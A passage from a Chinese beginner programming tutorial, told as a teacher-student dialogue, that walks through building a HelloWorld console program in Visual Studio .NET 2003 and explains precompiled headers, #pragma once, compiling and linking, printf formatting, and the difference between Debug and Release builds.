

“启动界面会显示 .NET 里安装了哪些工具，接着我们就会看见如图 1-8 所示的界面图了。”

“哇，蛮漂亮的啊！比 VC6.0 好看多了。”小菜说道。

“不仅界面好看多了，功能也强大了很多。”老师说道，“我们来建立一个新的工程吧。”

“点击菜单中的‘文件’->‘新建’->‘项目’，如图 1-9，就会弹出‘新建项目’对话框。我们选择‘Visual C++ 项目’->‘Win32’下的‘Win32 控制台项目’，如图 1-10。”



“大家可以看到，左上角的‘项目类型’中，可以选择我们安装的 VB、VC# 等工具的项目清单；而 VC++ 项目下有 .NET、ATL、MFC、Win32 等类型。我们这里选择的是‘Win32 控制台项目’。”

“那 ATL 是什么呢？”小菜们东望望西望望。

“ATL 是一个产生 C++/COM 代码的框架”，老师回答道，“在这门课里我们不关心它，因为我们是不会使用 COM 的。”



### 小知识：COM 简介

COM（Component Object Model，组件对象模型）是一种说明如何建立可动态交互组件的规范，此规范提供了为保证能够互操作，客户和组件应遵循的一些二进制的网络标准。通过这种标准，将可以在任意两个组件之间进行通信，而不再考虑其所处的操作环境是否相同、使用的开发语言是否一致以及是否运行于同一台计算机。

在 COM 规范下，将能够以高度灵活的编程手段来开发、维护应用程序，可以将一个单独的复杂程序划分为多个独立的模块进行开发。这里的每一个独立模块都是一个自给自足的组件，可以采取不同的开发语言去设计每一个组件。在运行时将这些组件通过接口组装起来以形成所需要的应用程序，构成应用程序的每一个组件都可以在不影响其他组件的前提下被升级。

“好了，回到我们的程序上来。在项目的‘名称’中填入 HelloWorld，这可是入门例子的通用名称，我们也遵循这个惯例吧。然后在‘位置’中选择工程想存放的目录，点击确定，就会弹出‘Win32 应用程序向导’，如图 1-11。”



“在向导中，‘概述’页不用更改，点击下一步，进入‘选择应用程序设置’页面，在这里选择‘控制台应用程序’，点击完成，就会生成一个完整的解决方案，如图 1-12。”

“大家看，视图的左面是‘解决方案资源管理器’，从树状视图中可以清晰地看到工程所拥有的源文件、头文件和资源文件；视图的右面是‘代码编辑窗口’，正打开了 HelloWorld.cpp 这个文件进行编辑。在 .NET 中，一个很大的改进之处就是可以同时打开多个文件，并通过分页标签来切换，这样在编写代码的时候就方便多了。视图的底部是工程输出框，会输出很多有用的信息。在文件 HelloWorld.cpp 中，VC 自动生成的代码如下。”



图 1-11

```cpp
#include "stdafx.h"

int _tmain(int argc, _TCHAR* argv[])
{
    return 0;
}
```



图 1-12

“哎哟，哎哟，什么意思啊。”小菜们头晕了。

“不要着急，让我们一句一句地来看。”

### 1.2.2 stdafx.h 是什么

“文件中的第一行 `#include "stdafx.h"` 是什么意思呢？”小菜们问道。

“#include 就是文件包含，将其他文件里的内容包含进来。每个 C++/C 程序通常分为两个文件，一个文件用于保存程序的声明（declaration），称为头文件；另一个文件用于保存程序的实现（implementation），称为定义（definition）文件。C++/C 程序的头文件以 `.h` 为后缀，C 程序的定义文件以 `.c` 为后缀，C++ 程序的定义文件通常以 `.cpp` 为后缀。定义文件一开始就要对一些文件进行引用，包括自己的声明文件（.h 文件）以及使用的一些外部文件。”

“那这里引用的 stdafx.h 是什么头文件呢？”小菜们继续问道。

“stdafx 是 Standard Application Framework Extensions 的简称。”老师耐心地回答道，“在 VC 环境中，可以将一些源文件常用的、一般不会修改的头文件预先编译成目标代码，存在 .pch 文件中。这样当某个源文件有所修改时，而其关联的头文件也不用参与重新编译，从而提高了编译速度。”

“虽然 VC 非常智能，只会编译那些经过修改的文件，不会去重新编译那些没有改动过的文件。但是，一个文件经过修改后会重新编译整个文件，当然也包含了所有头文件中的东西（包括宏、预处理等）。VC 的预编译头文件保存的正是这部分信息。如果将那些稳定的信息保存在预编译头文件中，就可以避免每次都要重新处理这些头文件，从而提高编译的速度。”

“好了，我们看看 stdafx.h 里面究竟是什么吧！”老师双击了下‘解决方案资源管理器’中的 stdafx.h，代码编辑窗口中显示其代码如下。

```cpp
#pragma once
#include <iostream>
#include <tchar.h>
```

“大家看，stdafx.h 头文件中包含了 iostream 和 tchar.h 这两个系统文件。iostream 是输入输出库，tchar.h 是字符串库，我们不太可能在工程中修改这些头文件，所以说它们是稳定的，因此 VC 自动放在了 stdafx.h 中，以提高编译速度。”

“哦，那我们可以把头文件的引用全部放在 stdafx.h 里吗？”

“不行！这些预先编译好的代码虽然可以是任何的 C/C++ 代码，但是必须是稳定的、在工程开发的过程中不会被经常改动的代码。如果这些代码被修改，则需要重新编译生成预编译头文件。生成预编译头文件是很耗时间的，而且预编译头文件通常很大，通常有几兆的大小。”

“另外，也不一定要把这个头文件命名为 stdafx.h，也可以是其他的名字，只要指明该文件要预编译就可以了。”

### 小知识：预编译参数

- `/Yc<filename>`：这个设置开关表明使用预编译头文件机制，`<filename>` 指的是需要预编译的头文件。
- `/Yu<filename>`：这个设置开关表明使用已经预编译好的头文件。`<filename>` 指的是预编译好的头文件。

### 1.2.3 头文件的作用

“老师，老师，我发现了一个问题。”——小菜突然兴奋地嚷道。

“哦？什么问题？”

“在 HelloWorld.cpp 中，`#include "stdafx.h"` 使用的是引号，而在 stdafx.h 中，`#include <iostream>` 使用的是尖括号。”小菜得意地指出来。

“太对了！”老师非常赞赏同学们的仔细，“它们是有区别的，`#include "filename.h"` 格式引用非标准库的头文件，编译器将从用户的工作目录开始搜索；`#include <filename.h>` 格式引用标准库的头文件，编译器将从标准库目录开始搜索。”

“哦，怪不得使用 `#include "stdafx.h"`，因为 stdafx.h 是在我们工程目录中的，而 `<iostream>` 则是在标准库目录中的。”小菜们明白了，“这样可以加快搜索速度吧。”

“是的，这里再对头文件的作用补充解释一下。”

“第一个作用是可以通过头文件来调用库功能。在很多场合，源代码不便（或不准）向用户公布，只要向用户提供头文件和二进制的库即可。用户只需要按照头文件中的接口声明来调用库功能，而不必关心接口怎么实现的，编译器会从库中提取相应的代码。第二个作用是头文件能加强类型安全检查。如果某个接口被实现或被使用时，其方式与头文件中的声明不一致，编译器就会指出错误，这一简单的规则能大大减轻程序员调试、改错的负担。”

### 1.2.4 `#pragma once` 是什么意思

“好了，让我们再回到 stdafx.h 中来。”老师说道，“大家看源代码的第一句话。”

```cpp
#pragma once
#include <iostream>
#include <tchar.h>
```

“第一句话？`#pragma once`？这又是什么意思呢？真是看得有些头晕了！”小菜们问道。

“不要着急，”老师忙说道，“在开始学习编程的时候要仔细点、耐心点，不放过任何细节，这样打好了基础，以后遇到复杂的程序思路也就不会混乱了。”

“哦！好吧，那 `#pragma once` 有什么作用呢？”

“`#pragma once` 指定当前文件在构建时只被包含或打开一次，这样就可以减少构建的时间。因为加入 `#pragma once` 后，编译器在打开或读取第一个 `#include` 模块后，就不会再打开或读取随后出现的相同 `#include` 模块了。”

“这个和 `#ifdef #endif` 产生的作用是一样的，比如可以改写成下面这个样子。”

```cpp
#ifndef STDAFX_H
#define STDAFX_H
#include <iostream>
#include <tchar.h>
#endif
```

“说一下这个代码的整个流程，`#ifndef STDAFX_H` 是说如果没有定义 STDAFX_H，就执行下面的代码，包括定义这个宏（`#define STDAFX_H`），并且包含两个头文件。”老师接着说道，“如果以后又访问到了这个文件，那时由于 STDAFX_H 此时已经定义了，就不会再执行下面的包含语句了。不过 `#pragma once` 和 `#ifndef #define ... #endif` 还是有细微的区别，`#pragma once` 是让编译器只打开一次文件，而如果只有 `#ifndef #define ... #endif` 的话，虽然编译器只编译一次头文件，但是它还是会打开这个文件很多次，这样做会多消耗一点编译时间。”

“那我们只使用 `#pragma once`，不使用 `#ifndef #define ... #endif` 了。”小菜们说道。

“呵呵，不过 `#pragma once` 不是 C++ 标准，是微软的东西，需要 VC 编译器的支持，离开了就不能用了，大家还是要知己知彼，灵活运用吧。”

### 1.2.5 编译链接的过程

“好了，其他细节都说得差不多了，我们来看看主程序代码，并且运行一下看看效果吧。”

```cpp
int _tmain(int argc, _TCHAR* argv[])
{
    return 0;
}
```

“主程序只有一句代码。第一句 `_tmain()` 表明程序的入口函数，后面的 `(int argc, _TCHAR* argv[])` 是命令行参数的个数和值。在 `main` 函数里，只有一句话 `return 0;`，就是什么都不做，直接返回。我们试着生成程序吧，选择菜单‘生成’->‘生成 HelloWorld’，如图 1-13。”

小菜们睁大了眼睛，只见输出窗口中输出了如图 1-14 所示的内容。

“哦！0 错误，0 警告，生成成功喽！”小菜们欢呼道。

“从这个输出中，我们可以看到可执行程序的产生经过了两个步骤：首先 C++ 编译器对工程中的两个源文件 `stdafx.cpp`、`HelloWorld.cpp` 单独进行编译（正在编译……）。在编译时，先由预处理器对预处理指令（`#include`、`#define` 和 `#if`）进行处理，在内存中输出翻译单元（一种临时文件）。编译器接受预处理的输出，将源代码转换成包含机器语言指令的两个目标文件（扩展名为 `obj` 的文件：`stdafx.obj`、`HelloWorld.obj`），接下来是链接过程（正在链接……）。链接器将编译中生成的目标文件和所用到的 C++ 类库文件一起链接生成 `exe` 文件。整个编译链接的过程如图 1-15 所示。”

“在工程的 Debug 目录下，我们可以看到所生成文件，如图 1-16。”老师说。

“哦，果然有 `obj` 文件、`exe` 文件和预处理产生的 `pch` 文件啊。”小菜们说道，“而且预编译文件 `pch` 的确比较大。”

“是的，我们执行程序来看看效果吧。”

“我们可以进入 CMD 命令提示符，以命令行方式运行 `HelloWorld.exe`，也可以在 VC 中直接运行程序。运行的方法是选择菜单下的‘调试’->‘开始执行（不调试）’，或者直接按快捷键 Ctrl+F5，如图 1-17，程序就会执行，其效果如图 1-18 所示。”

小菜们使劲看了看，问道：“怎么看不到什么效果呢？”

“那就对了，其实这个程序的效果就是没有什么效果！”听到老师这个回答，台下的小菜们倒下了一大片……

“呵呵，能够执行就是最好的效果了！”老师笑道，“我们加入一些可以显示的数据，让大家可以看到效果吧。”

### 1.2.6 第一个完整的输出程序

“在 C 语言中，我们可以使用 `printf` 函数在屏幕上打印出数据。”

“哦？`printf` 函数？如何使用呢？”

“大家在遇到这种问题的时候，就应该通过 MSDN 来寻找答案了。”老师说道，“我们打开 MSDN，在搜索中输入 `printf`，就可以看到对函数的详细介绍，并带有详细的例子。MSDN 中列出了一个使用 `printf` 的例子 `printf("Line one\n\t\tLine two\n");` 和例子的输出结果。”

```c
Line one
		Line two
```

“大家可以看到，`printf` 函数打出了对应的字符串，并且 `\n` 是换行符，`\t` 是 Tab 符。对于 `printf` 函数的详细使用介绍如下。”

`printf()` 函数的调用格式为 `printf("<格式化字符串>", <参数表>)`。其中格式化字符串包括两部分内容：一部分是正常字符，这些字符将按原样输出；另一部分是格式化规定字符，以“%”开始，后跟一个或几个规定字符，用来确定输出内容格式。而参数表是需要输出的一系列参数，其个数必须与格式化字符串中所说明的输出参数个数一样多，各参数之间用“,”分开，且顺序一一对应。

| 符号 | 作用 |
|---|---|
| `%d` | 十进制有符号整数 |
| `%u` | 十进制无符号整数 |
| `%f` | 浮点数 |
| `%s` | 字符串 |
| `%c` | 单个字符 |
| `%p` | 指针的值 |
| `%e` | 指数形式的浮点数 |
| `%x`, `%X` | 无符号以十六进制表示的整数 |
| `%o` | 无符号以八进制表示的整数 |
| `%g` | 自动选择合适的表示法 |

| 字符 | 作用 |
|---|---|
| `\n` | 换行 |
| `\f` | 清屏并换页 |
| `\r` | 回车 |
| `\t` | Tab 符 |
| `\xhh` | 表示一个 ASCII 码用 16 进制表示，其中 `hh` 是 1 到 2 个 16 进制数 |

老师补充道：“在 MSDN 中的例子就只使用了格式化字符串中正常字符和一些特殊规定的字符，没有使用到参数表。我们也仿照这样，只打格式化字符串中的正常字符。另外，在 MSDN 中，也列出了使用该函数所需的头文件和系统版本，如图 1-19。”

> “Required header 中列出了所需的头文件，是 `stdio.h`。”

> “哦，我知道了，就是要在程序的开始加上 `#include <stdio.h>` 吧！”一个小菜高兴地说道。

“是的！如果没有把文件包含进来，就会报如下的错误：`HelloWorld.cpp(10) : error C3861: “printf”: 即使使用参数相关的查找，也未找到标识符。` 表示找不到这个函数的声明，就是由于没有包含头文件引起的。我们加入 `#include <stdio.h>`，然后在 `_tmain()` 函数里加入一句代码 `printf("ww0830");`。”

> “哦，明白了，是打出 `ww0830` 这些字符串吧，但是为什么要打 `ww0830` 呢？”

> “因为……因为这是我的名字了，哈哈，其实打成其它的也可以！大家也可以改成自己的名字试试。具体代码如下。”

```c
#include "stdafx.h"
#include <stdio.h>            // 包含头文件

int _tmain(int argc, _TCHAR* argv[])
{
    printf("ww0830");         // 打印出字符串
    return 0;
}
```

“我们执行程序，按 Ctrl+F5，会提示项目配置已经过时，是否要生成它们，如图 1-20。点击确定，程序的执行效果如图 1-21 所示。”

> “哦！bingo！打出字符串了！”小菜们终于看到效果了，非常高兴。

## 1.3 VC 是什么

“有了第一个感性的例子，我们再来深入了解一下 VC 是什么吧。”

“什么？”小菜们睁大了眼睛，“这还要介绍吗？我都用 VC 编写了一个程序啊。”

“但是，大家的双眼都被 VC 的界面蒙蔽住了，实际上 VC 并不是那么简单。我们再 look inside，就是更深入一点。VC 本身是很多复杂工具的集合，它自身包括编译器、IDE 界面和 MFC 编程接口。”

### 1.3.1 编译器

VC 一个最重要的功能就是编译 C/C++ 程序了。编译程序完成从源程序到目标程序的翻译工作，是一个复杂的整体过程。一般编译过程划分成词法分析、语法分析、语义分析、中间代码生成、代码优化和目标代码生成六个阶段。不同的语言有不同的编译器，比如 C 语言有 TC、LCC 编译器，C++ 有 BCC，汇编有 TASM 编译器等。

对于同一种语言，也有很多种编译器。比如对于 C/C++，VC 可以编译，C++ Builder 也可以编译。如果有兴趣的话，在学习了编译原理后，也可以自己写个编译器来对 C/C++ 语言进行识别和编译。

在上面的例子中，编译、链接和运行的操作都隐藏在了按钮的点击中。在 VC 中，和编译链接相关的包括预处理器→编译器→汇编器→链接器。预处理器会处理相关的预处理指令，一般是以“#”开头的指令。比如 `#include "xx.h"`、`#define` 等。编译器把对应的 `*.cpp` 翻译成 `*.s` 文件（汇编语言），汇编器则处理 `*.s` 文件生成对应的 `*.o` 文件（`obj` 目标文件），最后链接器把所有的 `*.o` 文件链接成一个可执行文件（`*.exe`）。

“在前面的程序中，是进入 VC 图形化界面选择菜单来完成编译链接的。其实，VC 也是通过调用编译器工具来完成的，我们可以不进入 VC 的图形化界面，而在 DOS 命令行下编译程序，把一个 C 或 CPP 文件编译链接成 `exe` 文件。”老师说道。

> “哦！？在命令行下进行编译？”小菜们感兴趣地说道。

“是的，这是 VC 工具集合中的第一个工具——编译器。”老师回答道，“安装在 VC 安装目录的 `VC7\bin` 目录下。在该目录下有很多 `exe` 文件，包括刚才提到的编译器、链接器等。`cl.exe` 是编译器，`link.exe` 是链接器，如图 1-22。”

> “哦，那我们赶快试试吧！”小菜们迫不及待了。

“别慌，编译之前要先设置好 `INCLUDE`、`LIB` 等库文件的路径。”老师说道，“不过在 VC .NET 安装目录的 `VC7\Bin` 目录下，已经有一个现成的 `vcvars32.bat` 批处理文件，它可以帮助我们自动设置好这些路径。我们先进入 DOS 控制台，点击‘开始’→‘运行’，输入 `cmd`，如图 1-23。”

“在命令行下进入 `VC\bin` 目录，输入 `vcvars32.bat` 并回车来运行，如图 1-24。”

只见屏幕上弹出了环境设置成功的信息：

```text
Setting environment for using Microsoft Visual Studio .NET 2003 tools.
(If you have another version of Visual Studio or Visual C++ installed and wish
to use its tools from the command line, run vcvars32.bat for that version.)
```

“这句话的意思是设置 .NET 2003 环境成功，如果安装了其它版本的 Visual Studio 或 Visual C++，并想在命令行下使用它们的话，请运行各版本对应的 `vcvars32.bat`。”

“环境设置成功后，就可以编译源代码了。用这个同样的 CMD 窗口，进入到 `HelloWorld.cpp` 的目录下，输入 `cl HelloWorld.cpp stdafx.cpp`。”

只见屏幕上输出了一些警告信息，但最后还是生成了两个 `obj` 和一个 `exe` 文件。小菜们执行生成的 `HelloWorld.exe` 文件，仍然运行成功，如图 1-25。”

“为什么编译器 `cl.exe` 会报出警告信息呢？”小菜们不满足地问道。

“这是由于没有加入编译参数而造成的。”老师说道，“编译器都是一样的，但参数不一样，生成的程序就不一样。Debug 版本和 Release 版本就是这样生成的。”

### 1.3.2 生成 Debug 和 Release

“咦？Debug 和 Release？经常听说过，有区别吗？”小菜们说道。

“当然，它们有相当大的区别！”

> **小知识：Debug 和 Release 的区别**
>
> Debug 通常称为调试版本，它包含调试信息，并且不作任何优化，便于程序员调试程序。Release 称为发布版本，它往往是进行了各种优化，使得程序在代码大小和运行速度上都是最优的，以便用户很好地使用。

“我们在开发程序的时候，一般使用 Debug 版，方便调试。开发完成后，交付给用户的是 Release 版，它占用内存小，运行速度快。”

“在上面 HelloWorld 例子中，刚才生成的是 Debug 版的程序。我们可以通过更改配置，生成 Release 的程序。选择菜单中的‘生成’->‘配置管理器’，如图 1-26，将活动的解决方案配置改选为 Release，如图 1-27。”

“再生成解决方案，或者按快捷键 Ctrl+Shift+B，在 Release 目录下生成了该版本。”

小菜们看了看 Release 目录下的 `exe` 文件，只有 34K 大小，又回头仔细看了看 Debug 目录下的 `exe` 文件，发现居然有 108K！于是感叹道：“发布版本比调试版本少了这么多啊，如图 1-28。”

“是的。实际上 Debug 和 Release 的生成并没有本质的界限，它们只是一组编译选项的集合，编译器只是按照预定的选项行动。下面列出了主要的区别。”

| 版本 | 选项 | 说明 |
|---|---|---|
| Debug 版本 | `/MDd` `/MLd` 或 `/MTd` | 使用 Debug runtime library（调试版本的运行时刻函数库） |
| Debug 版本 | `/Od` | 关闭优化开关 |
| Debug 版本 | `/D "_DEBUG"` | 相当于 `#define _DEBUG`，打开编译调试代码开关（主要针对 `assert` 函数） |
| Debug 版本 | `/ZI` | 创建 Edit and Continue（编辑继续）数据库，这样在调试过程中如果修改了源代码不需要重新编译 |
| Debug 版本 | `/GZ` | 可以帮助捕获内存错误 |
